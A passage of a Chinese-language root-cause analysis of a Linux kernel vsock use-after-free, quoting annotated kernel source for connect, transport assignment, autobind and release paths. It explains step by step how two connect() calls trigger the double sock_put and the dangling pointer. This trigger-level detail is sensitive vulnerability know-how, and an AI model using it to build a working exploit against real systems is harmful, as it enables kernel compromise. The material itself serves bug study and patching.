		sk->sk_state = TCP_SYN_SENT;

		/* 交给 transport 完成实际连接建立 */
		err = transport->connect(vsk);
		if (err < 0)
			goto out;

		sk->sk_err = 0;

		sock->state = SS_CONNECTING;
		err = -EINPROGRESS;
	}

	timeout = vsk->connect_timeout;
	prepare_to_wait(sk_sleep(sk), &wait, TASK_INTERRUPTIBLE);

	/* 阻塞等待连接完成或出错 */
	while (sk->sk_state != TCP_ESTABLISHED && sk->sk_err == 0) {
		if (flags & O_NONBLOCK) {
			sock_hold(sk);

			if (mod_delayed_work(system_wq, &vsk->connect_work,
					     timeout))
				sock_put(sk);

			goto out_wait;
		}

		release_sock(sk);
		timeout = schedule_timeout(timeout);
		lock_sock(sk);

		/* 被信号打断：状态回退并取消挂起包 */
		if (signal_pending(current)) {
			err = sock_intr_errno(timeout);
			sk->sk_state = sk->sk_state == TCP_ESTABLISHED ? TCP_CLOSING : TCP_CLOSE;
			sock->state = SS_UNCONNECTED;
			vsock_transport_cancel_pkt(vsk);
			vsock_remove_connected(vsk);
			goto out_wait;
		/* 等待超时：状态回退到 CLOSE */
		} else if ((sk->sk_state != TCP_ESTABLISHED) && (timeout == 0)) {
			err = -ETIMEDOUT;
			sk->sk_state = TCP_CLOSE;
			sock->state = SS_UNCONNECTED;
			vsock_transport_cancel_pkt(vsk);
			goto out_wait;
		}

		prepare_to_wait(sk_sleep(sk), &wait, TASK_INTERRUPTIBLE);
	}

	if (sk->sk_err) {
		err = -sk->sk_err;
		sk->sk_state = TCP_CLOSE;
		sock->state = SS_UNCONNECTED;
	} else {
		err = 0;
	}

out_wait:
	finish_wait(sk_sleep(sk), &wait);
out:
	/*
	 * 释放 socket lock；不触碰 sk_refcnt。
	 * 第一次 connect 的 -EADDRNOTAVAIL 错误路径也经过此处，
	 * 套接字的引用计数因此保持为 2。
	 */
	release_sock(sk);
	return err;
}
```

##### 2-4-2-2. transport 选择

```c
/*
 * vsock_assign_transport - 为套接字选择并绑定 transport
 * @vsk:  待处理的 vsock_sock
 * @psk:  父/监听套接字；connect 路径上传 NULL
 *
 * 根据 remote_addr.svm_cid 和套接字类型选择 transport：
 *   - SOCK_DGRAM  -> transport_dgram
 *   - SOCK_STREAM -> 按 remote_cid 在 local/g2h/h2g 间选择
 *
 * 本函数是两次 connect 状态差异的分水岭：
 *
 *   第一次 connect：vsk->transport 为 NULL，release 分支被跳过，
 *     只执行新 transport 的 init 钩子。套接字被绑定到 loopback
 *     transport 后返回，未触及任何引用计数。
 *
 *   第二次 connect：vsk->transport 非空且与新 transport 不同，
 *     release 分支被触发。旧 transport 的 release() 钩子会沿
 *     virtio_transport_release() → virtio_transport_remove_sock()
 *     → vsock_remove_sock() 路径完成第一次 sock_put()，把引用
 *     计数从 2 降到 1。这是漏洞链上第一次错误的引用递减。
 *
 * try_module_get() 增加模块引用计数，防止 transport 在套接字
 * 使用期间被卸载。
 */
int vsock_assign_transport(struct vsock_sock *vsk, struct vsock_sock *psk)
{
	const struct vsock_transport *new_transport;
	struct sock *sk = sk_vsock(vsk);
	unsigned int remote_cid = vsk->remote_addr.svm_cid;
	__u8 remote_flags;
	int ret;

	if (psk && vsk->local_addr.svm_cid > VMADDR_CID_HOST &&
	    vsk->remote_addr.svm_cid > VMADDR_CID_HOST)
		vsk->remote_addr.svm_flags |= VMADDR_FLAG_TO_HOST;

	remote_flags = vsk->remote_addr.svm_flags;

	/* 根据套接字类型与 remote_cid 决定使用哪个 transport */
	switch (sk->sk_type) {
	case SOCK_DGRAM:
		new_transport = transport_dgram;
		break;
	case SOCK_STREAM:
	case SOCK_SEQPACKET:
		if (vsock_use_local_transport(remote_cid))
			new_transport = transport_local;
		else if (remote_cid <= VMADDR_CID_HOST || !transport_h2g ||
			 (remote_flags & VMADDR_FLAG_TO_HOST))
			new_transport = transport_g2h;
		else
			new_transport = transport_h2g;
		break;
	default:
		return -ESOCKTNOSUPPORT;
	}

	/*
	 * 两次 connect 的作用本质在此分叉：
	 *
	 * 第一次 connect：vsk->transport 为 NULL，本分支不执行。
	 *   函数只完成 transport 的绑定，套接字停留在 unbound
	 *   链表上。
	 *
	 * 第二次 connect：vsk->transport 非空且与新选择不同，本
	 *   分支执行。旧 transport 的 release() 钩子会沿调用链
	 *   最终进入 vsock_remove_sock()——这是漏洞链上第一次
	 *   错误的 sock_put() 的触发点。
	 */
	if (vsk->transport) {
		if (vsk->transport == new_transport)
			return 0;

		/* 触发旧 transport 的 release 路径 */
		vsk->transport->release(vsk);
		vsock_deassign_transport(vsk);

		/* 清理套接字状态，准备切换到新 transport */
		sock_reset_flag(sk, SOCK_DONE);
		sk->sk_state = TCP_CLOSE;
		vsk->peer_shutdown = 0;
	}

	/* 防止 transport 在使用期间被卸载 */
	if (!new_transport || !try_module_get(new_transport->module))
		return -ENODEV;

	if (sk->sk_type == SOCK_SEQPACKET) {
		if (!new_transport->seqpacket_allow ||
		    !new_transport->seqpacket_allow(remote_cid)) {
			module_put(new_transport->module);
			return -ESOCKTNOSUPPORT;
		}
	}

	/* 调用 transport 的 init 钩子完成绑定 */
	ret = new_transport->init(vsk, psk);
	if (ret) {
		module_put(new_transport->module);
		return ret;
	}

	vsk->transport = new_transport;

	return 0;
}

/*
 * vsock_use_local_transport - 判断 remote_cid 是否使用本地 transport
 * @remote_cid:  远端 context id
 *
 * 返回 true 表示应使用 transport_local（loopback）。判断条件：
 *   - remote_cid 恰好等于 VMADDR_CID_LOCAL；
 *   - 或 remote_cid 等于 transport_g2h 注册的本地 CID。
 * 两者都不满足时返回 false。
 */
static bool vsock_use_local_transport(unsigned int remote_cid)
{
	if (!transport_local)
		return false;

	if (remote_cid == VMADDR_CID_LOCAL)
		return true;

	if (transport_g2h) {
		return remote_cid == transport_g2h->get_local_cid();
	} else {
		return remote_cid == VMADDR_CID_HOST;
	}
}
```

##### 2-4-2-3. transport 初始化

```c
/*
 * virtio_transport_do_socket_init - virtio transport 的 init 钩子
 * @vsk:  待初始化的 vsock_sock
 * @psk:  父/监听套接字
 *
 * 分配 per-transport 的 struct virtio_vsock_sock，并与 vsock_sock
 * 双向链接：vsk->trans 指向 vvs，vvs->vsk 指回 vsk。同时初始化
 * 收发锁与 rx 队列，用于后续数据收发。
 *
 * 本函数在两次 connect 中都会被调用：
 *   - 第一次 connect 绑定 loopback transport 时调用一次；
 *   - 第二次 connect 切换到 g2h transport 时又调用一次。
 * 两次调用都会分配独立的 per-transport 上下文，不共享状态。
 */
int virtio_transport_do_socket_init(struct vsock_sock *vsk,
				    struct vsock_sock *psk)
{
	struct virtio_vsock_sock *vvs;

	/* 分配 per-transport 上下文 */
	vvs = kzalloc(sizeof(*vvs), GFP_KERNEL);
	if (!vvs)
		return -ENOMEM;

	/* 双向绑定，使 transport 层可从任一侧访问对方 */
	vsk->trans = vvs;
	vvs->vsk = vsk;
	if (psk && psk->trans) {
		struct virtio_vsock_sock *ptrans = psk->trans;

		vvs->peer_buf_alloc = ptrans->peer_buf_alloc;
	}

	if (vsk->buffer_size > VIRTIO_VSOCK_MAX_BUFFER_SIZE)
		vsk->buffer_size = VIRTIO_VSOCK_MAX_BUFFER_SIZE;

	vvs->buf_alloc = vsk->buffer_size;

	/* 初始化收发锁与队列 */
	spin_lock_init(&vvs->rx_lock);
	spin_lock_init(&vvs->tx_lock);
	skb_queue_head_init(&vvs->rx_queue);

	return 0;
}
```

##### 2-4-2-4. 自动绑定

```c
/*
 * vsock_auto_bind - 如果套接字尚未绑定，则自动选择一个端口
 * @vsk:  待绑定的 vsock_sock
 *
 * 若 local_addr 已经绑定则直接返回 0；否则用通配 CID 和端口
 * 调用 __vsock_bind() 完成绑定。
 *
 * 本函数在两次 connect 中都被调用，但由于静态 port 计数器的
 * 位置不同，产生的结果完全相反：第一次 connect 因端口全部被
 * 预留而失败；第二次 connect 首次探测即成功。
 */
static int vsock_auto_bind(struct vsock_sock *vsk)
{
	struct sock *sk = sk_vsock(vsk);
	struct sockaddr_vm local_addr;

	/* 已绑定则无需重复绑定 */
	if (vsock_addr_bound(&vsk->local_addr))
		return 0;
	vsock_addr_init(&local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	return __vsock_bind(sk, &local_addr);
}

/*
 * __vsock_bind - 按套接字类型分发到相应的绑定实现
 * @sk:    待绑定的 struct sock
 * @addr:  请求的地址；svm_port 可能为 VMADDR_PORT_ANY
 *
 * 连接型（SOCK_STREAM / SOCK_SEQPACKET）走
 * __vsock_bind_connectible()；数据报走 __vsock_bind_dgram()。
 * 绑定操作在 vsock_table_lock 保护下进行。
 */
static int __vsock_bind(struct sock *sk, struct sockaddr_vm *addr)
{
	struct vsock_sock *vsk = vsock_sk(sk);
	int retval;

	/* 已绑定的套接字不允许重复绑定 */
	if (vsock_addr_bound(&vsk->local_addr))
		return -EINVAL;

	/* 非通配 CID 必须在当前 namespace 中可用 */
	if (addr->svm_cid != VMADDR_CID_ANY && !vsock_find_cid(addr->svm_cid))
		return -EADDRNOTAVAIL;

	switch (sk->sk_socket->type) {
	case SOCK_STREAM:
	case SOCK_SEQPACKET:
		spin_lock_bh(&vsock_table_lock);
		retval = __vsock_bind_connectible(vsk, addr);
		spin_unlock_bh(&vsock_table_lock);
		break;

	case SOCK_DGRAM:
		retval = __vsock_bind_dgram(vsk, addr);
		break;

	default:
		retval = -EINVAL;
		break;
	}

	return retval;
}

/*
 * __vsock_bind_connectible - 连接型套接字的端口选择与迁移
 * @vsk:   待绑定的 vsock_sock
 * @addr:  请求的地址；svm_port 为 VMADDR_PORT_ANY 时自动挑选
 *
 * 端口自动挑选逻辑：
 *   - 静态 port 计数器在首次调用时随机初始化；
 *   - 每次探测都让 port 递增，避免同一端口重复尝试；
 *   - 最多尝试 MAX_PORT_RETRIES（24）次；
 *   - 若 24 次内未找到空闲端口，返回 -EADDRNOTAVAIL。
 *
 * 两次 connect 中本函数的执行结果完全不同：
 *
 *   第一次 connect：静态 port 计数器位于 P0+1，探测循环 24
 *     次全部命中预留端口，found 保持 false，函数返回
 *     -EADDRNOTAVAIL，不会到达末尾的迁移操作。副作用是静态
 *     port 计数器被推进到 P0+25，落在预留区间之外——这一
 *     副作用是第二次 connect 自动绑定成功的关键前提。
 *
 *   第二次 connect：静态 port 计数器已位于 P0+25，探测循环
 *     首次迭代即命中空闲端口，found 变为 true，函数继续执行
 *     末尾的迁移操作。末尾两行先通过 __vsock_remove_bound()
 *     完成第二次 sock_put()（引用计数从 1 降到 0，对象释放），
 *     再通过 __vsock_insert_bound() 对悬垂的 vsk 执行
 *     sock_hold() 与 list_add()，构成 UAF。
 */
static int __vsock_bind_connectible(struct vsock_sock *vsk,
				    struct sockaddr_vm *addr)
{
	/* 跨调用保持的静态计数器，其位置决定端口探测的起点 */
	static u32 port;
	struct sockaddr_vm new_addr;

	/* 首次调用时随机初始化计数器 */
	if (!port)
		port = get_random_u32_above(LAST_RESERVED_PORT);

	vsock_addr_init(&new_addr, addr->svm_cid, addr->svm_port);

	/* VMADDR_PORT_ANY：自动挑选端口 */
	if (addr->svm_port == VMADDR_PORT_ANY) {
		bool found = false;
		unsigned int i;

		/* 最多探测 MAX_PORT_RETRIES 次 */
		for (i = 0; i < MAX_PORT_RETRIES; i++) {
			/* 计数器回绕时跳过保留端口区 */
			if (port <= LAST_RESERVED_PORT)
				port = LAST_RESERVED_PORT + 1;

			/*
			 * 每次迭代都让 port 递增，无论是否命中。
			 * 这一自增动作在两次 connect 中都在执行，
			 * 是静态计数器能够被推进到预留区间之外的
			 * 直接原因。
			 */
			new_addr.svm_port = port++;

			/* 命中空闲端口则记录并跳出循环 */
			if (!__vsock_find_bound_socket(&new_addr)) {
				found = true;
				break;
			}
		}

		/*
		 * 第一次 connect：24 次探测全部命中预留端口，
		 *   found 保持 false，函数在此返回，不会到达末尾
		 *   的迁移操作。
		 * 第二次 connect：首次探测即成功，found 为 true，
		 *   跳过该分支继续向下。
		 */
		if (!found)
			return -EADDRNOTAVAIL;
	} else {
		/* 显式端口：保留端口需要 CAP_NET_BIND_SERVICE */
		if (addr->svm_port <= LAST_RESERVED_PORT &&
		    !capable(CAP_NET_BIND_SERVICE)) {
			return -EACCES;
		}

		/* 显式端口已被占用则返回 -EADDRINUSE */
		if (__vsock_find_bound_socket(&new_addr))
			return -EADDRINUSE;
	}

	/* 记录本次绑定的最终地址 */
	vsock_addr_init(&vsk->local_addr, new_addr.svm_cid, new_addr.svm_port);

	/*
	 * 以下两行只在第二次 connect 中被执行。
	 * 第一次 connect 在前面的探测循环失败处就已返回，不会
	 * 到达这里。
	 *
	 * 从原链表摘除，同时递减引用计数。
	 * 这一步完成第二次 sock_put()，把 sk_refcnt 从 1 降到 0，
	 * 触发对象释放——这是漏洞链上第二次错误的引用递减。
	 */
	__vsock_remove_bound(vsk);

	/*
	 * 把套接字挂到 bound hash bucket。
	 * 由于上一步对象已被释放，此处 vsk 已经是悬垂指针：
	 * sock_hold 对已释放的引用计数递增（触发 refcount_t 告警），
	 * list_add 向已释放内存写入链表指针，两者共同构成 UAF。
	 */
	__vsock_insert_bound(vsock_bound_sockets(&vsk->local_addr), vsk);

	return 0;
}
```

#### 2-4-3. 引用计数与链表操作

引用计数是对象生命周期的度量，链表则是对象在协议栈中的身份。两者在本漏洞中紧密耦合：链表操作会触发引用计数的变化，而引用计数的失误又会让链表持有悬垂节点。

##### 2-4-3-1. 引用计数

```c
/*
 * sock_hold - 递增套接字引用计数
 * @sk:  待递增的 struct sock
 *
 * 对已释放对象的引用计数执行递增会触发 refcount_t 告警，
 * 这正是本漏洞在 KASAN 报告中的表现之一。
 *
 * 在两次 connect 中，本函数被调用的时机不同：
 *   - 第一次 connect 的 autobind 失败路径不调用本函数；
 *   - 第二次 connect 末尾的 __vsock_insert_bound() 会对已释放
 *     的 vsk 调用本函数，触发 refcount_t: addition on 0。
 */
static __always_inline void sock_hold(struct sock *sk)
{
	/* sk_refcnt 加一；对已归零对象执行此操作会告警 */
	refcount_inc(&sk->sk_refcnt);
}

/*
 * sock_put - 递减套接字引用计数，归零时释放对象
 * @sk:  待递减的 struct sock
 *
 * 引用计数减 1 后若归零，调用 sk_free 启动释放流程。
 *
 * 本函数是漏洞链上引用计数递减的执行者：
 *   - 第一次 connect 不调用本函数（autobind 失败提前返回）；
 *   - 第二次 connect 通过 release 路径和 autobind 路径各调用
 *     一次，最终把引用计数降到 0。
 */
static inline void sock_put(struct sock *sk)
{
	/* 递减并检查是否归零；归零则调用 sk_free */
	if (refcount_dec_and_test(&sk->sk_refcnt))
		sk_free(sk);
}

/*
 * sk_free - 释放套接字前检查写侧缓冲区
 * @sk:  待释放的 struct sock
 *
 * 先递减 sk_wmem_alloc；若仍有未完成的写操作，sock_wfree 会在
 * 后续回调中调用 __sk_free；否则立即进入 __sk_free。
 *
 * 套接字从未发送数据时，sk_wmem_alloc 保持在 sk_alloc 中初始
 * 化的 1，因此递减后归零，直接进入 __sk_free。
 */
void sk_free(struct sock *sk)
{
	/* 检查写侧引用计数是否也归零，两者都归零才真正释放 */
	if (refcount_dec_and_test(&sk->sk_wmem_alloc))
		__sk_free(sk);
}

/*
 * __sk_free - 套接字释放的最后一步
 * @sk:  待释放的 struct sock
 *
 * 更新网络命名空间统计，然后通过 sk_destruct 回调完成协议级
 * 清理。vsock 在 __vsock_create 中把 sk_destruct 设置为
 * vsock_sk_destruct。
 */
static void __sk_free(struct sock *sk)
{
	/* 更新命名空间的套接字计数 */
	if (likely(sk->sk_net_refcnt))
		sock_inuse_add(sock_net(sk), -1);

	/* 若有 destroy 监听者则广播销毁事件，否则直接走析构 */
	if (unlikely(sk->sk_net_refcnt && sock_diag_has_destroy_listeners(sk)))
		sock_diag_broadcast_destroy(sk);
	else
		sk_destruct(sk);
}
```

##### 2-4-3-2. 绑定链表

```c
/*
 * vsock_remove_sock - 从 bound 和 connected 链表上摘除套接字
 * @vsk:  待移除的 vsock_sock
 *
 * 无条件调用 vsock_remove_bound()，没有区分套接字当前是否真的
 * 处于已绑定状态。当套接字仅挂在 unbound 链表上时，该调用会
 * 错误地递减引用计数——本漏洞的关键所在。
 *
 * 本函数在两次 connect 中的语义不同：
 *   - 第一次 connect 的 autobind 失败路径不调用本函数；
 *   - 第二次 connect 的 transport 重分配路径会调用本函数，
 *     此时套接字仍挂在 unbound 链表上，函数内部的
 *     __vsock_remove_bound() 会错误递减一次引用计数。
 */
void vsock_remove_sock(struct vsock_sock *vsk)
{
	/* 无条件调用：缺少对套接字当前绑定状态的判断 */
	vsock_remove_bound(vsk);
	vsock_remove_connected(vsk);
}

/*
 * vsock_remove_bound - 尝试从 bound 链表移除 vsock_sock
 * @vsk:  待移除的 vsock_sock
 *
 * 守卫条件 __vsock_in_bound_table() 只检查 bound_table 字段是否
 * 为空，对挂在 unbound 链表上的套接字同样返回 true。因此实际
 * 上未绑定的套接字也会走进 __vsock_remove_bound()，触发一次错
 * 误的 sock_put()。
 */
void vsock_remove_bound(struct vsock_sock *vsk)
{
	spin_lock_bh(&vsock_table_lock);
	/*
	 * 关键守卫：只判断 bound_table 是否为空。
	 * unbound 链表与 bound 链表共享同一字段，因此该守卫对
	 * 未绑定套接字也返回 true——这是漏洞链条上的第一层缺陷，
	 * 使得第二次 connect 中挂在 unbound 链表上的套接字被错误
	 * 认定为"已绑定"。
	 */
	if (__vsock_in_bound_table(vsk))
		__vsock_remove_bound(vsk);
	spin_unlock_bh(&vsock_table_lock);
}

/*
 * __vsock_in_bound_table - 判断套接字是否挂在 bound 链表上
 * @vsk:  待检查的 vsock_sock
 *
 * 返回值只反映 bound_table 字段是否为空。由于 unbound 链表与
 * bound 链表共享同一个 bound_table 字段，挂在 unbound 链表上
 * 的套接字也会让本函数返回 true。
 */
static inline bool __vsock_in_bound_table(struct vsock_sock *vsk)
{
	/* 字段非空即返回 true，无法区分两条链表 */
	return !list_empty(&vsk->bound_table);
}

/*
 * __vsock_remove_bound - 执行实际的移除动作并递减引用计数
 * @vsk:  待移除的 vsock_sock
 *
 * 调用者必须已持有 vsock_table_lock。list_del_init 把套接字从
 * 当前链表上摘除；sock_put 递减引用计数，若归零则触发对象释放。
 *
 * 本函数在两次 connect 中的调用次数与效果：
 *   - 第一次 connect：不调用。
 *   - 第二次 connect：被调用两次。第一次由 transport release
 *     路径进入，把引用计数从 2 降到 1；第二次由 autobind 末尾
 *     的迁移操作进入，把引用计数从 1 降到 0，触发对象释放。
 */
static void __vsock_remove_bound(struct vsock_sock *vsk)
{
	/* 从当前链表上摘除；若节点本身为空操作也无副作用 */
	list_del_init(&vsk->bound_table);
	/* 递减引用计数；若降到 0 则调用 sk_free 启动释放流程 */
	sock_put(&vsk->sk);
}
```

##### 2-4-3-3. 连接链表

```c
/*
 * vsock_remove_connected - 尝试从 connected 链表移除 vsock_sock
 * @vsk:  待移除的 vsock_sock
 */
void vsock_remove_connected(struct vsock_sock *vsk)
{
	spin_lock_bh(&vsock_table_lock);
	if (__vsock_in_connected_table(vsk))
		__vsock_remove_connected(vsk);
	spin_unlock_bh(&vsock_table_lock);
}

/*
 * __vsock_in_connected_table - 判断套接字是否挂在 connected 链表
 * @vsk:  待检查的 vsock_sock
 */
static inline bool __vsock_in_connected_table(struct vsock_sock *vsk)
{
	return !list_empty(&vsk->connected_table);
}

/*
 * __vsock_remove_connected - 从 connected 链表摘除并递减引用计数
 * @vsk:  待移除的 vsock_sock
 */
static void __vsock_remove_connected(struct vsock_sock *vsk)
{
	list_del_init(&vsk->connected_table);
	sock_put(&vsk->sk);
}
```

#### 2-4-4. transport 释放路径

transport 释放路径把 transport 切换的语义转化为实际的链表与引用计数操作。这一路径上每个函数都承担了一部分职责，最终把控制流带入 `vsock_remove_sock()`。**整条路径只在第二次 connect 中被执行**——第一次 connect 时 `vsk->transport` 为 NULL，release 分支不触发。

##### 2-4-4-1. release 入口

```c
/*
 * virtio_transport_release - virtio transport 的 release 钩子
 * @vsk:  正在被释放的 vsock_sock
 *
 * 对面向连接的套接字，先通过 virtio_transport_close() 决定是否
 * 需要走优雅关闭流程。若返回 true，直接进入移除流程。
 *
 * 本函数只在第二次 connect 的 transport 重分配路径上被调用。
 * 第一次 connect 时套接字尚未绑定 transport，不进入本函数。
 */
void virtio_transport_release(struct vsock_sock *vsk)
{
	struct sock *sk = &vsk->sk;
	bool remove_sock = true;

	/* 面向连接的套接字需要通过 close 判定是否可以直接移除 */
	if (sk->sk_type == SOCK_STREAM || sk->sk_type == SOCK_SEQPACKET)
		remove_sock = virtio_transport_close(vsk);

	if (remove_sock) {
		/* 标记 SOCK_DONE，防止后续重复关闭 */
		sock_set_flag(sk, SOCK_DONE);
		/* 进入移除流程，漏洞链由此处向下延伸 */
		virtio_transport_remove_sock(vsk);
	}
}
```

##### 2-4-4-2. 关闭判定

```c
/*
 * virtio_transport_close - 判断是否可以直接移除套接字
 * @vsk:  待检查的 vsock_sock
 *
 * 返回值：
 *   true  -> 无需优雅关闭，调用者可直接移除套接字；
 *   false -> 需要等待对端关闭流程完成后再移除。
 *
 * 套接字未进入 ESTABLISHED / CLOSING 状态时，第一个判断即返回
 * true，无需走优雅关闭流程。
 *
 * 在漏洞场景中，由于第一次 connect 在 autobind 处失败，套接字
 * 从未到达 ESTABLISHED，因此第二次 connect 进入本函数时首个
 * 判断直接返回 true，release 流程继续向下执行。
 */
static bool virtio_transport_close(struct vsock_sock *vsk)
{
	struct sock *sk = &vsk->sk;

	/*
	 * 套接字不在已连接或关闭中状态时直接返回 true。
	 * 本漏洞场景下的套接字从未到达 ESTABLISHED，所以这里
	 * 无条件返回 true，release 流程继续向下。
	 */
	if (!(sk->sk_state == TCP_ESTABLISHED ||
	      sk->sk_state == TCP_CLOSING))
		return true;

	/* 对端已完全关闭：发 RST 并立即移除 */
	if ((vsk->peer_shutdown & SHUTDOWN_MASK) == SHUTDOWN_MASK) {
		(void)virtio_transport_reset(vsk, NULL);
		return true;
	}

	/* 本端尚未发送 SHUTDOWN：发送之 */
	if ((sk->sk_shutdown & SHUTDOWN_MASK) != SHUTDOWN_MASK)
		(void)virtio_transport_shutdown(vsk, SHUTDOWN_MASK);

	if (sock_flag(sk, SOCK_LINGER) && !(current->flags & PF_EXITING))
		virtio_transport_wait_close(sk, sk->sk_lingertime);

	if (sock_flag(sk, SOCK_DONE)) {
		return true;
	}

	/* 需要后台等待对端确认 */
	sock_hold(sk);
	INIT_DELAYED_WORK(&vsk->close_work,
			  virtio_transport_close_timeout);
	vsk->close_work_scheduled = true;
	schedule_delayed_work(&vsk->close_work, VSOCK_CLOSE_TIMEOUT);
	return false;
}

/*
 * virtio_transport_wait_close - 等待对端确认关闭
 * @sk:       待等待的 struct sock
 * @timeout:  最长等待时间
 */
static void virtio_transport_wait_close(struct sock *sk, long timeout)
{
	if (timeout) {
		DEFINE_WAIT_FUNC(wait, woken_wake_function);

		add_wait_queue(sk_sleep(sk), &wait);

		do {
			if (sk_wait_event(sk, &timeout,
					  sock_flag(sk, SOCK_DONE), &wait))
				break;
		} while (!signal_pending(current) && timeout);

		remove_wait_queue(sk_sleep(sk), &wait);
	}
}

/*
 * virtio_transport_shutdown - 向对端发送 SHUTDOWN 包
 * @vsk:   the vsock_sock
 * @mode:  关闭方向（RCV_SHUTDOWN / SEND_SHUTDOWN）
 */
int virtio_transport_shutdown(struct vsock_sock *vsk, int mode)
{
	struct virtio_vsock_pkt_info info = {
		.op = VIRTIO_VSOCK_OP_SHUTDOWN,
		.flags = (mode & RCV_SHUTDOWN ?
			  VIRTIO_VSOCK_SHUTDOWN_RCV : 0) |
			 (mode & SEND_SHUTDOWN ?
			  VIRTIO_VSOCK_SHUTDOWN_SEND : 0),
		.vsk = vsk,
	};

	return virtio_transport_send_pkt_info(vsk, &info);
}

/*
 * virtio_transport_reset - 向对端发送 RST 包
 * @vsk:   the vsock_sock
 * @skb:   触发 RST 的原始包，可能为 NULL
 */
static int virtio_transport_reset(struct vsock_sock *vsk,
				  struct sk_buff *skb)
{
	struct virtio_vsock_pkt_info info = {
		.op = VIRTIO_VSOCK_OP_RST,
		.reply = !!skb,
		.vsk = vsk,
	};

	/* 仅在原包不是 RST 时发送 RST，避免 RST 风暴 */
	if (skb && le16_to_cpu(virtio_vsock_hdr(skb)->op) == VIRTIO_VSOCK_OP_RST)
		return 0;

	return virtio_transport_send_pkt_info(vsk, &info);
}
```

##### 2-4-4-3. 移除与解除绑定

```c
/*
 * virtio_transport_remove_sock - 从 virtio transport 移除套接字
 * @vsk:  待移除的 vsock_sock
 *
 * 清理 per-transport 的 rx 队列后，交给通用的 vsock_remove_sock()
 * 完成 bound / connected 链表的摘除。
 *
 * 本函数只在第二次 connect 的 transport 重分配路径上被调用，
 * 是漏洞链上第一次 sock_put() 的触发点。
 */
static void virtio_transport_remove_sock(struct vsock_sock *vsk)
{
	struct virtio_vsock_sock *vvs = vsk->trans;

	/* 清空 per-transport 的接收队列 */
	__skb_queue_purge(&vvs->rx_queue);
	/* 进入通用移除流程，bug 由此处开始触发 */
	vsock_remove_sock(vsk);
}

/*
 * vsock_deassign_transport - 解除套接字与当前 transport 的绑定
 * @vsk:  待解除绑定的 vsock_sock
 *
 * 调用 transport 的 destruct() 钩子清理 per-transport 状态；
 * 释放模块引用计数；把 vsk->transport 置回 NULL。
 */
static void vsock_deassign_transport(struct vsock_sock *vsk)
{
	if (!vsk->transport)
		return;

	/* 调用 transport 的析构钩子 */
	vsk->transport->destruct(vsk);
	/* 释放模块引用计数 */
	module_put(vsk->transport->module);
	/* 清空 transport 指针，供下一轮 assign 重新绑定 */
	vsk->transport = NULL;
}
```

#### 2-4-5. Socket 释放与析构

socket 释放路径是漏洞链条的另一端。`close()` 系统调用最终会进入 `vsock_release()`，而在此之前，`__vsock_release()` 会先调用 `transport->release()`——这条路径与第二次 connect 中触发的 release 路径共享同一段代码，但触发时机完全不同。

##### 2-4-5-1. release 入口

```c
/*
 * vsock_release - AF_VSOCK 协议族的 release 钩子
 * @sock:  待释放的 struct socket
 *
 * close() 系统调用最终进入本函数。第一个动作是调用
 * sk->sk_prot->close(sk, 0)，通过 socket 的 proto 指针分发到
 * vsock 的关闭实现；随后执行 __vsock_release()。
 */
static int vsock_release(struct socket *sock)
{
	struct sock *sk = sock->sk;

	if (!sk)
		return 0;

	/* 通过 proto 表分发到 vsock 的 close 实现 */
	sk->sk_prot->close(sk, 0);
	/* 主要的释放流程 */
	__vsock_release(sk, 0);
	sock->sk = NULL;
	sock->state = SS_FREE;

	return 0;
}

/*
 * __vsock_release - 套接字释放的主要流程
 * @sk:     待释放的 struct sock
 * @level:  锁嵌套层级；SINGLE_DEPTH_NESTING 表示递归调用
 *
 * 释放 transport 上下文、标记 socket 不可用、清空接收队列、
 * 递归释放未 accept 的连接、最终释放套接字锁并调用 sock_put。
 *
 * 本函数中的 vsk->transport->release(vsk) 与第二次 connect 中
 * 触发的 release 路径共享同一实现，但触发路径不同：本函数由
 * close() 系统调用进入，触发点是 socket 的销毁；第二次 connect
 * 的触发点是 transport 的切换。
 */
static void __vsock_release(struct sock *sk, int level)
{
	struct vsock_sock *vsk;
	struct sock *pending;

	vsk = vsock_sk(sk);
	pending = NULL;

	lock_sock_nested(sk, level);

	/* 有 transport 时通过 transport 的 release 钩子清理 */
	if (vsk->transport)
		vsk->transport->release(vsk);
	else if (sock_type_connectible(sk->sk_type))
		vsock_remove_sock(vsk);

	/* 标记 socket 不可用 */
	sock_orphan(sk);
	sk->sk_shutdown = SHUTDOWN_MASK;

	/* 清空接收队列 */
	skb_queue_purge(&sk->sk_receive_queue);

	/* 清理从未被 accept 的连接 */
	while ((pending = vsock_dequeue_accept(sk)) != NULL) {
		__vsock_release(pending, SINGLE_DEPTH_NESTING);
		sock_put(pending);
	}

	release_sock(sk);
	/* 递减引用计数；归零时触发 slab 回收 */
	sock_put(sk);
}
```

##### 2-4-5-2. socket 锁释放

```c
/*
 * release_sock - 释放由 lock_sock() 获取的 socket 锁
 * @sk:  待解锁的 struct sock
 *
 * 主要工作：排空 backlog 队列；若协议提供了 release_cb（如
 * TCP），调用它完成延迟处理；释放 socket 所有权；唤醒等待
 * socket 锁的进程。
 *
 * 与 sock_put() 不同，本函数不触碰 sk_refcnt。第一次 connect
 * 的 -EADDRNOTAVAIL 错误路径经过本函数后，套接字的引用计数
 * 保持不变，仍为 2——这正是漏洞链条得以继续的前提。
 */
void release_sock(struct sock *sk)
{
	spin_lock_bh(&sk->sk_lock.slock);
	/* backlog 非空时先排空 */
	if (sk->sk_backlog.tail)
		__release_sock(sk);

	/* 协议可选提供 release_cb，用于延迟处理的收尾 */
	if (sk->sk_prot->release_cb)
		INDIRECT_CALL_INET_1(sk->sk_prot->release_cb,
				     tcp_release_cb, sk);

	/* 释放 socket 所有权 */
	sock_release_ownership(sk);
	/* 唤醒等待 socket 锁的进程 */
	if (waitqueue_active(&sk->sk_lock.wq))
		wake_up(&sk->sk_lock.wq);
	spin_unlock_bh(&sk->sk_lock.slock);
}

/*
 * __release_sock - 排空 backlog 队列
 * @sk:  待排空的 struct sock
 *
 * 处理套接字在用户上下文持锁期间积压的 skb。每次取出一个 skb
 * 后临时释放锁，调用协议层的 sk_backlog_rcv 处理，然后再重新
 * 持锁。这样可以避免长时间占用锁造成其他路径阻塞。
 */
void __release_sock(struct sock *sk)
	__releases(&sk->sk_lock.slock)
	__acquires(&sk->sk_lock.slock)
{
	struct sk_buff *skb, *next;

	/* 逐批排空 backlog */
	while ((skb = sk->sk_backlog.head) != NULL) {
		sk->sk_backlog.head = sk->sk_backlog.tail = NULL;

		spin_unlock_bh(&sk->sk_lock.slock);

		/* 逐个处理 skb */
		do {
			next = skb->next;
			prefetch(next);
			DEBUG_NET_WARN_ON_ONCE(skb_dst_is_noref(skb));
